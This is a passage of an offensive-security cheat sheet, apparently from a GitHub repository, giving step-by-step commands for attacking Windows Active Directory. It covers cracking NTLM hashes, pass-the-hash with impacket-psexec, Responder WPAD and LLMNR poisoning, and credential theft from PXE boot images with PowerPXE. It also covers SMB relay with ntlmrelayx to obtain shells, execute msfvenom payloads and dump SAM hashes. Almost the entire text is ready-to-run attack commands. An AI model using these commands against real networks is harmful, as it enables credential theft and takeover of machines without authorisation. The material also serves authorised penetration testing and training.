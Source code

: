 STEP 3
- `hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt`
- Use also a pass the hash attack for Administrator:
  - `impacket-psexec -hashes <NTLM_hash>:<empty_ntlm_hash> Administrator@<target_IP>`

STEP 4
- RESTORATION: [CVE-2020-1472 - Restore Steps](https://github.com/dirkjanm/CVE-2020-1472#restore-steps)


### Responder SSRF

- Setup Responder to create a spoofed WPAD proxy server
  - `sudo responder -I tun0 -wv`
  
  
### LAPS and PXE

- [Taking over Windows Workstations thanks to LAPS and PXE](https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/)
- [PowerPXE](https://github.com/wavestone-cdt/powerpxe)
- [TryHackMe task 6 Breaching AD](https://tryhackme.com/room/breachingad)
1. `tftp -i $IP GET "\Tmp\x64{39...28}.bcd" conf.bcd`
2. `Import-Module .\PowerPXE.ps1`
3. `$BCDFile = "conf.bcd"`
4. `Get-WimFile -bcdFile $BCDFile`
5. `tftp -i $IP GET "<PXE Boot Image Location>" pxeboot.wim`
6. `Get-FindCredentials -WimFile pxeboot.wim`


### LLMNR Poisoning

- It is possible that when you run nmap, or simply have traffic, you may receive communications. Use responders to capture hashes
1. `sudo responder -I tun0 -rdwv`
2. Listen to the traffic
3. Get the hash
4. crack the hash
   - `hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt -o cracked.txt -O`


### SMB Relay

- Requirements for attack: SMB signing must be disabled on the target; Relayed user credentials must be admin on the machine.
  - Discovery: `nmap --script=smb2-security-mode.nse -p445 <target_network>`
1. Turn off SMB and HTTP from the file `/usr/share/responder/Responder.conf`
2. `sudo responder -I <interface> -rdwv`
3. `sudo impacket-ntlmrelayx -tf targets.txt -smb2support`
   - Add the flag `-i` to get an interactive SMB shell; connect with netcat `nc 127.0.0.1 1100`
   - Add the flag `-c` to run a command, like `whoami`
   - Add the flag `-e` to execute something, like a payload generated with msfvenom
4. Capture SAM hashes

